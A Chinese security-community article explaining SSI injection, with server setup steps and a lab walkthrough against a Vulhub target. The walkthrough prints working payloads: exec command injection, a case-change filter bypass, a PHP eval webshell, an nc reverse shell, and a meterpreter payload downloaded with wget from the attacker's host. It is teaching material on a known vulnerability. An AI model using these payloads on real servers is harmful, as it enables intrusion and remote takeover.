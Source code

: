 

# SSI攻防技术简易刨析 - 先知社区

SSI攻防技术简易刨析

- - -

## 基本介绍

SSI(Server Side Includes，即服务器端包含)是一种用于网页开发的服务器端技术，它允许网页开发者在网页中插入SSI指令来动态地生成网页内容，这些指令可以用于包含外部文件、执行条件判断和循环等操作，从而简化网页开发和维护工作，它的强大之处就在于我们有时候只需要一条简单的SSI命令就可以实现整个网站的内容更新，例如：时间和日期的动态显示、执行Shell和CGI脚本程序等复杂的功能，SSI可以称得上是那些资金短缺、时间紧张、工作量大的网站开发人员的最佳帮手

## 语法格式

SHTML(Server Side Includes HTML)是一种扩展名为".shtml"的网页文件格式，它是一种结合了HTML和SSI(Server Side Includes)功能的文件类型，SHTML文件可以包含静态的HTML内容以及服务器端脚本代码以实现动态内容的生成和展示，在SHTML文件中SSI指令基本格式如下所示，需要特别注意的是其语法格式必须是以html的注释符<!--开头、且后面紧接#符号和SSI命令，它们期间不能存在空格

```plain
<!--#command param="value"-->
```

SSI中常见的几种指令如下所示：  
A、config命令  
基本描述：config命令主要用于配置和设置SSI的参数和选项  
语法格式：  
简易示例：

```plain
#设置错误页面
<!--#config errordocument="404 /errors/notfound.html" -->

#设置日期和时间格式
<!--#config timefmt="%Y-%m-%d %H:%M:%S" -->
```

B、include命令  
基本描述：include命令用于将其他文件的内容插入到当前网页中  
语法格式： 或  
简易示例：

```plain
#包含文件
<!--#include file="header.html" -->

#包含虚拟文件
<!--#include virtual="/includes/header.html" -->
```

C、echo命令  
基本描述：echo命令用于显示指定变量的值或其他内容  
语法格式：  
简易示例：

```plain
#显示变量值
<!--#set var="pageTitle" value="Welcome" -->
<!--#echo var="pageTitle" -->

#显示服务器环境变量
<!--#echo var="SERVER_NAME" -->
```

D、fsize命令  
基本描述：fsize命令用于显示指定文件的大小  
语法格式：  
简易示例：

```plain
<!--#fsize file="image.jpg" -->
```

E、flastmod命令  
基本描述：flastmod命令用于显示指定文件的最后修改时间  
语法格式：  
简易示例：

```plain
<!--#flastmod file="index.html" -->
```

F、exec命令  
基本描述：exec命令用于在服务器上执行指定的命令并将结果输出到网页中  
语法格式：  
简易示例：

```plain
<!--#exec cmd="ls -l" -->
```

G、for命令  
基本描述：for命令用于定义一个变量并在指定范围内循环执行相应的代码块  
语法格式：

```plain
<!--#for var="variable" start="start" end="end" -->
    <!--#echo var="variable" -->
<!--#endfor -->
```

简易示例：假设需要在网页中显示数字1到5，可以使用循环命令来实现

```plain
<!--#for var="i" start="1" end="5" -->
    <!--#echo var="i" -->
<!--#endfor -->
```

H、if命令  
基本描述：if命令用于根据条件判断来选择性地显示不同的内容  
语法格式：

```plain
<!--#if expr="expression" -->
    <!--#echo var="variable" -->
<!--#else -->
    <!--#echo var="other_variable" -->
<!--#endif -->
```

简易示例：假设有一个变量isLoggedIn用于判断用户是否已登录，根据该条件判断可以显示不同的欢迎信息

```plain
<!--#if expr="$isLoggedIn eq 'true'" -->
    <p>Welcome, user!</p>
<!--#else -->
    <p>Welcome, guest!</p>
<!--#endif -->
```

备注：SSI的语法虽然非常简单，但在使用中需注意以下几点

-   SSI大小写敏感
-   <!--与#之间无空格
-   value需写在引号中

## 服务启动

### IIS

在IIS(Internet Information Services)中配置SSI(Server Side Includes)可按照以下步骤进行操作：  
1、打开IIS管理器，您可以在Windows服务器上的"管理工具"或通过运行"inetmgr"命令来打开它  
2、在左侧的导航栏中展开服务器名称并选择您要配置的站点  
3、双击"处理程序映射"图标  
4、在右侧的"操作"面板中单击"添加模块映射"  
5、在"添加模块映射"对话框中配置以下设置  
请求路径：\*.shtml(或您希望启用SSI的文件扩展名）  
模块：ServerSideIncludeModule  
可执行文件：%windir%\\system32\\inetsrv\\ssinc.dll  
名称：任意指定一个名称，例如:"SSI"  
6、单击"确定"保存模块映射配置  
7、返回到IIS管理器主窗口，在站点上右键单击，选择"高级设置"  
8、在"高级设置"对话框中找到"默认文档"属性并确保您的默认文档列表中包含SSI文件(例如：default.shtml)  
9、单击"确定"保存更改

### Nginx

Step 1：首先我们要确保已安装Nginx的ngx\_http\_ssi\_module模块，这一点可以通过运行以下命令检查是否已启用该模块，如果在输出中存在"--with-http\_ssi\_module"，则说明模块已启用

```plain
nginx -V
```

Step 2：打开Nginx配置文件并如下几项

```plain
ssi on;
ssi_silent_errors off;
ssi_types text/shtml;
```

完整示例如下：

```plain
server{
    listen 80;
    server_name www.al1ex.com

    // 配置SSL
    ssi on;                 // 开启SSI支持
    ssi_silent_errors on;   // 指定是否在SSI处理过程中忽略错误,如果将其设置为on，当SSI命令无法执行或出现错误时，Nginx将继续处理页面而不中断并显示错误消息
    ssi_types text/html;    // 指定哪些响应类型将启用SSI功能,在此示例中我们将SSI应用于text/html类型的响应

    location / {
        root html;
        index index.html index.htm;
    }
}
```

### Apache

在Apache中配置SSI需要修改其配置文件，流程大致如下：  
Step 1：打开Apache的配置文件，确保在配置文件中存在以下行以启用mod\_include模块

```plain
LoadModule include_module libexec/apache2/mod_include.so
```

Step 2：在配置块中添加以下指令以启用SSI功能，随后保存并关闭配置文件，重新启动Apache即可

```plain
Options +Includes                   //启用服务器端包含
AddType text/html .shtml            //指定SSI文件的扩展名为.shtml，您可以根据需要使用其他扩展名
AddOutputFilter INCLUDES .shtml     //将输出过滤器设置为INCLUDES，以便在.shtml文件上应用SSI处理
```

## 漏洞介绍

造成SSI漏洞的主要原因在于当用户可以控制SSI指令的部分内容时，攻击者可以插入要执行的恶意代码，例如：如果开发者未对用户的输入进行适当的过滤处理，那么攻击者便可以差入类似""的指令来实现文件读取等各种恶意操作，同事也可以进行反弹shell，这一点我们在下面的文章内容中进行介绍

## 漏洞挖掘

### 利用条件

-   Web服务器端支持SSI
-   用户输入的内容，返回在HTML页面中
-   参数未进行输入过滤或者过滤不严格导致可绕过

### 相关业务

在很多业务中页面中一小部分在动态输出的时候经常会使用到SSI，常见的有以下几种：

-   访客IP
-   当前时间
-   定位信息
-   文件相关的属性字段

PS：网站存在.stm,.shtm和.shtml文件，那说明该网站支持SSI指令，由于后缀名并非是强制规定的，因此如果没有发现任何.shtml文件也并不意味着目标网站没有受到SSI注入攻击的可能

## 靶机示例

### 发现漏洞

这里我们以Vulhub中的一个靶机为例进行简易介绍，在前期的信息收集阶段我们通过目录扫描发现目标服务器上存在index.shtml文件，说明此站点支持SSI指令，基于此我们直接访问index.shtml，发现页面展示了一个SSI命令，这也在暗示我们这个网站存在SSI漏洞  
[![](assets/1703831460-0ce266884b1155327761449daa7970e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133325-9f899848-a542-1.png)  
我们抱着试一试的心态对首页仅有的输入框进行Fuzzing测试

```plain
<!--#EXEC cmd="whoami" -->
```

[![](assets/1703831460-0f4c0f54c836969d1eedf5efa28430d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133410-b9f2b3cc-a542-1.png)  
随后我们看到页面中回显了执行的结果，从结果中我们可以看到这里的SSI注入点为第二个框，也就是Feedback，同时我们发现了一个ssi.shtml页面

[![](assets/1703831460-026ca6d3f03b2a3949c297e191ae778e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133447-d06a5088-a542-1.png)

[![](assets/1703831460-27d846da2cdd0451c66ed52285c8a0af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133517-e206a1fc-a542-1.png)

### 普通查询

随后下面的测试我们在burpsuite中进行测试

```plain
#文档名称
<!--#echo var="DOCUMENT_NAME"-->
```

[![](assets/1703831460-10e4490a35d56ec3c043e24eec263d8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133755-4025f224-a543-1.png)

[![](assets/1703831460-c95f270ab36a5569cbe940e0443e6e43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133812-4a5ce108-a543-1.png)

```plain
#当前时间：
<!--#echo var="DATE_LOCAL"-->
```

[![](assets/1703831460-e2ecc64da459f004ecb6474fdd58a165.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133838-59c3628e-a543-1.png)

[![](assets/1703831460-6881a84d9b976a1b5d1204223b4c0db6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133849-60c2d5e2-a543-1.png)

```plain
#IP地址信息
<!--#echo var="REMOTE_ADDR"-->
```

[![](assets/1703831460-b297b5ee322c891f4beb77c80e48e15b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133913-6e7b04b6-a543-1.png)

[![](assets/1703831460-643d845fb878c6d9536dbc3df3786cff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133925-75ab4fc0-a543-1.png)

### 执行命令

当我们发现SSI漏洞时我们可以借助exec指令来实现命令执行(这里很多人可能会好奇为啥这里是EXEC,而不是exec，这是因为此靶机有一层检查，但是结合之前我们说的SSI对大小写敏感所以我们通过大写的方式实现注入利用)：

```plain
<!--#EXEC cmd="ls -al"-->
```

[![](assets/1703831460-9c1ea38d500dfed95c588c466834a68e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134153-ce454636-a543-1.png)

[![](assets/1703831460-b6920d4bd27901c0aed672e731884fe6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134331-086b92f2-a544-1.png)

### Webshell

由于上面查看的环境中文件以php结尾，故此我们可以判断目标环境为php环境，所以我们可以直接通过SSI漏洞来写入PHP木马文件实现getshell目的

```plain
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[![](assets/1703831460-eddc962106a25eca2a2186d6957c7d69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134402-1b4124a0-a544-1.png)  
[![](assets/1703831460-38ee8d712ce6756916b5f380b5ec319f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134414-2209060e-a544-1.png)  
随后我们进行一个列目录的操作

```plain
<!--#EXEC cmd="ls -al"-->
```

[![](assets/1703831460-c29035c030ad95e1132fe5004bdd7e22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134443-3394e3ac-a544-1.png)  
随后可以看到a.php文件被上传到服务器端  
[![](assets/1703831460-c52b8d03d50b46cfbd0920a862533707.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134500-3d736042-a544-1.png)  
然后我们直接使用蚁剑进行链接  
[![](assets/1703831460-b3300d986a917b4f605668db2290f90c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134520-49ccfc40-a544-1.png)  
随后获取到服务器端的shell权限  
[![](assets/1703831460-6495502c244d11a2f0af1494173c2927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134537-538ef120-a544-1.png)

### 反弹shell

既然SSI的指令可以用于执行系统命令那么我们有没有方法可以实现反弹shell呢？与其猜想，不如一试

```plain
#使用nc反弹shell
<!--#EXEC cmd="nc 192.168.204.135 9999 -e /bin/bash"-->
```

[![](assets/1703831460-6ec5638c950f0cbd63c9605955bed0e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134641-79ba52c2-a544-1.png)  
[![](assets/1703831460-f4b6199b3e22bc344f67d8c04b82725a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134651-800239b0-a544-1.png)  
但是发现并未反弹shell回来

[![](assets/1703831460-284e029b743bbde3c70997ac9e7b6042.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134712-8c2b9fb0-a544-1.png)

后来发现目标主机虽然有nc，但是属于阉割版本，没有-e参数，无法反弹  
[![](assets/1703831460-52509f35a8f57560498f04c2aee26b06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134814-b116e604-a544-1.png)

### MSF反弹

首先生成pyton木马文件

```plain
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.204.135 lport=4444 -f raw > shell.py
```

[![](assets/1703831460-eb48e958e5a3b543a48c65be2a4be4ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134839-c00e84a0-a544-1.png)  
在MSF中建立木马监听

```plain
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 192.168.204.135
set lport 4444
exploit
```

[![](assets/1703831460-e42db718f3239e880ad43ba9af1a29a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134933-e016698e-a544-1.png)  
随后使用python建立一个简易的http服务用于托管shell.py文件

```plain
python2 -m SimpleHTTPServer 1234
```

[![](assets/1703831460-f9ebe297ba1dd84bcdf146e90f89d11a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134957-ee656030-a544-1.png)  
然后构造SSI注入语句执行木马文件

```plain
<!--#EXEC cmd="wget http://192.168.204.135:1234/shell.py"-->
```

[![](assets/1703831460-da7ab00eb9ec9beee3bdd938cb5a2be8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135027-009509fe-a545-1.png)  
[![](assets/1703831460-c84228bfd130d757d3a1ff32ab946e6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135037-06b5459c-a545-1.png)  
给文件赋予权限：

```plain
<!--#EXEC cmd="chmod 777 shell.py"-->
```

[![](assets/1703831460-2c4400171d24afa58a449eff4cef7d3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135101-14edf1b8-a545-1.png)  
随后执行木马文件

```plain
<!--#EXEC cmd="python shell.py"-->
```

[![](assets/1703831460-0ecd6a4c5a8ab46d4338ba1a29f2d02f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135123-21d8146c-a545-1.png)  
收到请求记录  
[![](assets/1703831460-27ddf7128ebc831bde58b4a412f41f91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135154-346afefa-a545-1.png)  
获取meterreter操作终端  
[![](assets/1703831460-96d3f84fa547d5c32ef9900a563ac9df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135329-6cdbd32c-a545-1.png)

## 另类利用

在测试任意文件上传漏洞的时候如果目标服务端可能不允许上传php后缀的文件，但是目标服务器开启了SSI与CGI支持，此时我们可以上传一个shtml文件并利用语法执行任意命令

### 环境演示

环境文件以php为后缀，所以我们可以了解到环境为PHP解析环境，随后我们尝试上传PHP文件来getshell  
[![](assets/1703831460-acfcadd053866529d1deb3374e9bd01c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135854-2eb80b14-a546-1.png)  
此时发现上传的PHP文件类型不支持  
[![](assets/1703831460-6f75cac8518a30db7c4bddcec6e1d762.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135908-37104240-a546-1.png)  
此时我们可以尝试随意输入一个路径获取后端中间件信息，发现是Apache/2.4.25版本，此时考虑到php文件上传这一条路已经不通了，而后端是Apache，那么我们可以硬着头皮试试是否Apache存在SSI配置错误  
[![](assets/1703831460-1e0b85884f69577602d25e0081d6750e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135942-4b35ee78-a546-1.png)  
随后我们更改shell.php文件为shell.shtml并更改其内容

```plain
<!--#exec cmd="ls -al" -->
```

[![](assets/1703831460-917ed4f1f5920d77533ea6a366c41aa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142022-2e9a592c-a549-1.png)  
随后上传文件  
[![](assets/1703831460-ed0d27c87526d108d51680bb43fba85c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142043-3aea59d4-a549-1.png)  
紧接着会出现一个shell.shtml文件的连接，我们直接访问会得到其执行的结果：

[![](assets/1703831460-fee3157223b5830bddb98071d96cfa65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142054-419ae79e-a549-1.png)

[![](assets/1703831460-da32fcf325e201292266f43331db53d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142138-5bdb2dc6-a549-1.png)  
随后我们可以使用同样的方法上传文件获取到当前文件的路径并进行写一句话后门文件

```plain
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[![](assets/1703831460-030de1f8514c65729ca50a1b5a437b0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142200-689f4114-a549-1.png)  
此时在服务器端我们可以看到文件被成功写入  
[![](assets/1703831460-8b9dd0ad935728f2e203400ab76d5ba9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142209-6e544898-a549-1.png)  
随后使用蚁剑直接进行连接即可实现GetShell  
[![](assets/1703831460-516f7dc28c5075ba0c101d5f877ca624.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142222-75b37d48-a549-1.png)  
[![](assets/1703831460-81f83edf44c66605daf6bb2ac5a65b91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142231-7b8cc3be-a549-1.png)  
获取到服务器的shell权限后我们来查看一下具体的Apache的错误配置信息是怎么样子的

[![](assets/1703831460-9650db4afa9dc4937cbc97d434ae10fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142247-849a37f2-a549-1.png)

[![](assets/1703831460-4c897eb3fe849bbe2cdfe93590b91a5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142252-880390dc-a549-1.png)

[![](assets/1703831460-df32231b434685d309c525d8747af900.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142257-8b106048-a549-1.png)  
上述配置是针对Apache HTTP Server的<directory>指令的设置，它指定了对/var/www/目录的访问权限和相关选项：</directory>

-   <Directory /var/www/>：该行指定了要配置的目录路径为 /var/www/。可以根据实际情况更改为其他目录路径
-   Options -Indexes +Includes：这行设置了目录的选项，具体解释如下：
    -   \-Indexes：禁止目录列表功能，当用户访问一个没有指定索引文件的目录时，网页服务器会显示该目录的文件列表，通过使用-Indexes选项，禁止显示目录文件列表，增加安全性
    -   +Includes：启用SSI(Server Side Includes)功能，SSI允许在网页中嵌入服务器端执行的指令从而实现动态内容的生成和插入
-   AllowOverride All：这行指定了允许使用.htaccess文件来覆盖目录配置，.htaccess文件是Apache服务器中用于在特定目录中修改配置的文件，通过设置AllowOverride All，允许在/var/www/目录中使用.htaccess文件来覆盖主配置文件中的设置

## 绕过思路

有时候我们在使用SSI注入命令时会发现exec等命令会被过滤处理，如果此时后端只是过滤了小写(通常也用小写)，那么我们可以考虑使用大写的方式来绕过，例如：

```plain
#使用小写时被屏蔽
<!--#exec cmd="cat /etc/passwd" -->
```

[![](assets/1703831460-aabcee512f12b3d8f74e67d68fefa0fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135401-800eade8-a545-1.png)  
[![](assets/1703831460-c68bb8a245714a50cd120c772be5007f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135426-8ee33546-a545-1.png)

```plain
#使用大写实现绕过
<!--#EXEC cmd="cat /etc/passwd" -->
```

[![](assets/1703831460-27ce90d5ced7a85527483ce3b3f36cff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135451-9de5bbc2-a545-1.png)

[![](assets/1703831460-e5e2b2bfc4e41555298b0fbaf0918193.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135500-a369b346-a545-1.png)

## 防御措施

-   如果不使用SSI服务则关闭服务器SSI功能
-   过滤相关SSI特殊字符(`<,>,#,-,",'`)
